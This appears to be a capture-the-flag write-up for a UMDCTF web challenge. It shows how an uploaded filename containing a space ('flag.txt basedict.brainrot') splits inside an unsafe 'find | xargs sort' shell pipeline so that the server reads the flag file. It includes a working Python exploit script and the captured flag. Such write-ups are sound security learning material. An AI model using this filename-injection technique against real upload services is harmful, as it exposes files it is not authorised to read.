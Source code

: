 ```yaml
---
ai_date: 2025-04-27 03:51:56
ai_summary: Payload filename with spaces bypassed sort and revealed flag in response
tags:
  - filename-bypass
  - xss
created: 2025-04-25T18:58
updated: 2025-04-27T03:51
---
```


The shell command looks suspicious:

```sh
find {session['upload_dir']} -name \*.brainrot | xargs sort | uniq
```

I can tell that this will be messed up by spaces in filename, so after a bit of playing around I found the payload filename.

`flag.txt basedict.brainrot`


```sh
$ ls upload_dir/
basedict.brainrot   flag.txt  'flag.txt basedict.brainrot'

$ find upload_dir -name \*.brainrot
upload_dir/basedict.brainrot
upload_dir/flag.txt basedict.brainrot

$ find upload_dir -name \*.brainrot | xargs sort
flag  # from flag.txt
hello # from basedict.brainrot
hello 
not_flag
not_flag
```

```python
import requests
import re

base_url = 'https://brainrot-dictionary.challs.umdctf.io'
upload_url = f"{base_url}/"
download_url = f"{base_url}/dict"

s = requests.Session()
files = {
    'user_file': (
        'flag.txt basedict.brainrot',
        b'chicken'
    )
}
r = s.post(upload_url, files=files, allow_redirects=False)
r = s.get(download_url)
print(re.search(r'[\w_]+{.*}', r.text).group(0))
```

```flag
UMDCTF{POSIX_no_longer_recommends_that_this_is_possible}
```
